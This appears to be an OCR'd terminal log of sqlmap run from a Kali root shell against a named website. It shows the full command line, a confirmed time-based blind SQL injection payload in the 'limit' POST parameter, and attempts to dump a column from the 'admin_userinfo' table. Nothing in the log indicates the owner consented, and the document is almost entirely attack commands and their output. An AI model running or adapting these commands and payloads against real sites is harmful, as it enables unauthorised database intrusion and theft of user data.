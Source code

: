 [18:58:04] [INFO] fetching entries of column(s) 'student_number' for table 'admin_userinfo' in database 'qaisare_com'
[18:58:04] [INFO] fetching number of column(s) 'student_number' entries for table 'admin_userinfo' in database 'qaisare_com'
[18:58:04] [WARNING] time-based comparison requires larger statistical model, please wait..............................  (done)
[18:58:12] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 

[18:58:12] [WARNING] unable to retrieve the number of column(s) 'student_number' entries for table 'admin_userinfo' in database 'qaisare_com'
[18:58:12] [INFO] fetched data logged to text files under '/root/.sqlmap/output/www.qaisare.com'

[*] shutting down at 18:58:12

root@kali:~# sqlmap --url "https://www.qaisare.com/includes/slider.php" --data "limit=13&start=0&condition=ORDER+BY+%60date_of_post%60+DESC+LIMIT"  --no-cast --tamper between.py -D qaisare_com -T admin_userinfo -C student_numbe --dump --time-sec 20
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.2.10#stable}
|_ -| . [)]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 18:58:26

[18:58:26] [INFO] loading tamper module 'between'
[18:58:26] [INFO] resuming back-end DBMS 'mysql' 
[18:58:26] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: limit (POST)
    Type: AND/OR time-based blind
    Title: MySQL >= 5.1 time-based blind (heavy query) - PROCEDURE ANALYSE (EXTRACTVALUE)
    Payload: limit=13 PROCEDURE ANALYSE(EXTRACTVALUE(6233,CONCAT(0x5c,(BENCHMARK(20000000,MD5(0x4a735968))))),1)&start=0&condition=ORDER BY `date_of_post` DESC LIMIT
---
[18:58:27] [WARNING] changes made by tampering scripts are not included in shown payload content(s)
[18:58:27] [INFO] the back-end DBMS is MySQL
web application technology: Apache, PHP 7.4.7
back-end DBMS: MySQL 5 (MariaDB fork)
[18:58:27] [INFO] fetching entries of column(s) 'student_numbe' for table 'admin_userinfo' in database 'qaisare_com'
[18:58:27] [INFO] fetching number of column(s) 'student_numbe' entries for table 'admin_userinfo' in database 'qaisare_com'
[18:58:27] [WARNING] time-based comparison requires larger statistical model, please wait......^C
